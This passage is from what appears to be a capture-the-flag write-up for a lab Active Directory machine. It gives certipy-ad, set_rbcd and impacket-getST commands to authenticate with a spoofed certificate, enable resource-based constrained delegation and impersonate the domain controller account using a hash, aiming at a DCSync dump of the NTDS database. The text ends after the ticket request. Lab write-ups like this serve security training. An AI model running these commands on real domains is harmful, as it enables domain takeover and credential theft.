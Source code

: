 ### 🔓 4. `Schannel` Authentication & Impersonation

🎯 Authenticate with the **spoofed certificate** to gain a `privileged LDAP shell`.

```bash
certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -ldap-shell
```

> ✅ You are now `dc01$` — as far as Active Directory is concerned.

### 🧰 5. `LDAP` Shell access > Enable `RBCD`

```bash
set_rbcd dc01$ Mirage-Service$
```

![Mirage-Service-Impersonate-Users-on-DC01](assets/img/Mirage-Service-Impersonate-Users-on-DC01.png)

> By these ways we have allowed **Resource Based Constraint Delegation** attack to `Mirage-Service$`.

---

## 🎯 Further Exploitation: `DCSync Attack` (MITRE ATT&CK: Credential Access)

🎯 Abuse `RBCD` and the `cifs` **SPN** to extract the **NTDS database** from the `DC01`.

```bash
impacket-getST -spn 'cifs/DC01.mirage.htb' -impersonate 'dc01$' -dc-ip 10.10.11.78  'mirage.htb/Mirage-Service$' -hashes :305806d84f7c1be93a07aaf40f0c7866
```

![impacket-getST-Mirage-Service](assets/img/impacket-getST-Mirage-Service.png)
